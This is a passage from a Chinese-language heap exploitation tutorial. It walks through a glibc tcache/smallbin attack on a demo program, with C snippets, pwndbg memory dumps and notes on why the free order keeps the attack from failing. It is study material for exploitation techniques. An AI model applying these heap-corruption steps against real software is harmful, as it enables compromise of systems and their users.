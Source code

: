 ```c
......
0x555555757950:	0x0000000000000000	0x0000000000000000
pwndbg>
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1621219960867-83dd9d04-80b3-44cf-bfb2-676ab41b7948.png)

> 注意：这里的free顺序可不是乱来的：
>
> Q：为什么要先释放后6个堆块让其进入tcachebin？
>
> A：这样考虑的原因是在之后释放3个堆块时可以让其进入unsortedbin中，如果先释放前6个堆块那么后续的3个堆块的最后一个堆块会与top_chunk合并导致攻击失败。
>
> Q：为什么要这样释放free【chunk1】、free【chunk0】、free【chunk2】
>
> A：首先让chunk1进入tcachebin，这样的作用是防止后续进入unsortedbin的chunk0、chunk2发生合并导致攻击失败。
>

现在我们再申请一个大小为0xa0的堆块让其进入smallbin中（其实这里malloc堆块的大小不是0x90就行）（b 54->c）：

> 这里不懂的可以去看看malloc源码。
>

```c
    //convert into small bin
    printf("Now we alloc a chunk larger than 0x90 to put chunk0 and chunk2 into small bin.\n\n");

    malloc(0xa0);// size > 0x90
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1621220247472-2b947e0c-3c42-4a84-a0a0-0dd78aa4c296.png)

如上图所示原来的unsortedbin中的free chunk已经进入了smallbin中，现在我们清空两个tcachebin中的free chunk，为之后的攻击做准备（b 59->c）：

```c
    //now 5 tcache bins
    printf("Then we malloc two chunks to spare space for small bins. After that, we now have 5 tcache bins and 2 small bins\n\n");

    malloc(0x90);
    malloc(0x90);
```

```c
pwndbg> x/300gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache
0x555555757010:	0x0000000000000000	0x0000000000000005
......
0x555555757090:	0x00005555557576c0	0x0000000000000000
......
0x555555757250:	0x0000000000000000	0x00000000000000a1 #chunk_lis[0](free-smallbin)
0x555555757260:	0x00007ffff7dcdd30	0x0000555555757390
......
0x5555557572f0:	0x00000000000000a0	0x00000000000000a0 #chunk_lis[1](malloc)
0x555555757300:	0x0000555555757760	0x0000000000000000
......
0x555555757390:	0x0000000000000000	0x00000000000000a1 #chunk_lis[2](free-smallbin)
0x5555557573a0:	0x0000555555757250	0x00007ffff7dcdd30
......
0x555555757430:	0x00000000000000a0	0x00000000000000a0 #chunk_lis[3](free-tcachebin)
0x555555757440:	0x0000000000000000	0x0000555555757010
......
0x5555557574d0:	0x0000000000000000	0x00000000000000a1 #chunk_lis[4](free-tcachebin)
0x5555557574e0:	0x0000555555757440	0x0000555555757010
......
0x555555757570:	0x0000000000000000	0x00000000000000a1 #chunk_lis[5](free-tcachebin)
0x555555757580:	0x00005555557574e0	0x0000555555757010
```